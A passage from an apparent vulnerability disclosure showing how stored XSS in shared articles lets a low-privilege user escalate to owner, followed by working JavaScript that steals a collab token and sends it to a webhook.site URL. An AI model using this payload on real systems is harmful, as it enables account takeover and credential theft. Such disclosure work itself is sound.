 It can be seen that when the low-privilege user inserts the code, a request is automatically made to the /api/workspace/members/change-role endpoint, but the server returns a 403.
<img width="2467" height="1369" alt="image" src="https://github.com/user-attachments/assets/066564f0-db9f-49c6-8777-0f74ed5f3b08" />
Next, share the article:
<img width="2373" height="1147" alt="image" src="https://github.com/user-attachments/assets/d1145bd5-1176-40a3-9a82-9c7aab5fe2a9" />
Then, send the shared article link to the high-privilege user. When the high-privilege user accesses it, a request to the `/api/workspace/members/change-role` endpoint will also be automatically made. As shown below, the response from the `/api/workspace/members/change-role` endpoint is 200.
<img width="2515" height="1344" alt="image" src="https://github.com/user-attachments/assets/daa65cc7-3b21-4abb-8149-014bea255b52" />
When the user page is refreshed again, it is found that the low-privilege user, member1, has already been elevated to the highest privilege, owner, as shown below:
<img width="2077" height="735" alt="image" src="https://github.com/user-attachments/assets/fd17d645-0ee7-4701-b332-db73a91b3cf3" />

## Session hijacking
The principle behind the system endpoint /api/auth/collab-token returning a token allows XSS code to be inserted into the article that needs to be shared. This can enable arbitrary user credential theft. The code is as follows:
```javascript
fetch('http://172.245.168.131:3000/api/auth/collab-token', {
  method: 'GET',
  credentials: 'include'
})
.then(response => response.json())
.then(data => {
  const encodedData = encodeURIComponent(JSON.stringify(data));
  return fetch('https://webhook.site/14767674-eec4-40c4-917c-853bb1275610', {
    method: 'POST',
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded'
    },
    body: `data=${encodedData}`
  });
})
.then(response => {
  if (response.ok) {
    console.log('Data sent successfully');
  } else {
    console.error('Failed to send data', response.status);
  }
})
.catch(error => {
  console.error('Error:', error);
});
```

